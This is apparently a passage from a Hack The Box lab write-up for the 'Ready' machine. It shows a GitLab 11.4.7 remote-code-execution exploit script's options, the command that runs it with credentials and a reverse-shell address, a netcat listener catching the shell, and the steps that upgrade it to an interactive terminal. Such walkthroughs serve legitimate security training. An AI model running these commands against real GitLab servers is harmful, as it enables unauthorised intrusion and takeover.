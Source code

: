 ```text
parser = argparse.ArgumentParser(description='GitLab 11.4.7 RCE')
parser.add_argument('-u', help='GitLab Username/Email', required=True)
parser.add_argument('-p', help='Gitlab Password', required=True)
parser.add_argument('-g', help='Gitlab URL (without port)', required=True)
parser.add_argument('-l', help='reverse shell ip', required=True)
parser.add_argument('-P', help='reverse shell port', required=True)
args = parser.parse_args()
```

I have a user name and password from earlier when I registered on the GitLab site. So now I can use those credentials with the exploit:

```text
┌──(root💀kali)-[~/htb/ready]
└─# python3 49334.py -u pencer -p password -g http://ready.htb -l 10.10.14.161 -P 49999
[+] authenticity_token: KCmgClgMqt/cuS4ieLAwWTjV+bs3DXzGj1EjOdz3sCqDu5p5aI/f50gST6003uCT5xxwjVA6ZGrHwUgLkbsDKg==
[+] Creating project with random name: project6058
[+] Running Exploit
[+] Exploit completed successfully!
```

## Reverse Shell

Looks good. When I switch to my netcat listener I see we have a reverse shell connected:

```text
┌──(root💀kali)-[~/htb/ready]
└─# nc -nlvp 49999
listening on [any] 49999 ...
connect to [10.10.14.161] from (UNKNOWN) [10.10.10.220] 36876
```

Let's see who we are connected as:

```text
id
uid=998(git) gid=998(git) groups=998(git)
```

Now we need to upgrade to a better terminal:

```text
which bash
/bin/bash
which python3
/opt/gitlab/embedded/bin/python3

/opt/gitlab/embedded/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
git@gitlab:~/gitlab-rails/working$ ^Z
zsh: suspended  nc -nlvp 49999
┌──(root💀kali)-[~/htb/ready]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 49999
git@gitlab:~/gitlab-rails/working$ stty rows 52 cols 237
```
